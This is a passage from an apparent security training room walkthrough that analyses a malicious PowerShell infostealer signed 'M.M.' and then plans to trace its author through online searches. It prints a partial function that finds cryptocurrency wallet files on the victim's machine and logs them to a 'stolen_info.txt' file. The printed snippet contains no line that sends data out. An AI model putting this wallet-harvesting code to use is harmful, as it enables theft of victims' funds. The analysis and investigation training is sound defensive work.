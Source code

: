```
Write-Host "         Created by the one and only M.M."
```

}

# Call the function to print the ASCII art

Print-AsciiArt

# Path for the info file

$infoFilePath = "stolen_info.txt"

# Function to search for wallet files

function Search-ForWallets {
$walletPaths = @(
"$env:USERPROFILE.bitcoin\\wallet.dat",
"$env:USERPROFILE.ethereum\\keystore\*",
"$env:USERPROFILE.monero\\wallet",
"$env:USERPROFILE.dogecoin\\wallet.dat"
)
Add-Content -Path $infoFilePath -Value "\`n### Crypto Wallet Files ###"
foreach ($path in $walletPaths) {
if (Test-Path $path) {
Add-Content -Path $infoFilePath -Value "Found wallet: $path"
}
}
}

\[Output truncated for brevity\]

The script is designed to collect highly sensitive information from the victim's system, such as cryptocurrency wallets and saved browser credentials, and send it to an attacker's remote server.

Disclaimer: All content in this room, including CPP code, PowerShell scripts, and commands, is provided solely for educational purposes. Please do not execute these on a Windows host.

This looks fairly typical of a PowerShell script for such a purpose, with one notable exception: a signature in the code that reads.

```
Created by the one and only M.M.
```

Searching the Source

There are many paths we could take to continue our investigation. We could investigate the website further, analyse its source code, or search for open directories that might reveal more information about the malicious actor's setup. We can search for the hash or signature on public malware databases like VirusTotal or Any.Run. Each of these methods could yield useful clues.

However, for this room, we'll try something a bit different. Since we already have the PowerShell code, searching for it online might give us useful leads. It's a long shot, but we'll explore it in this exercise.
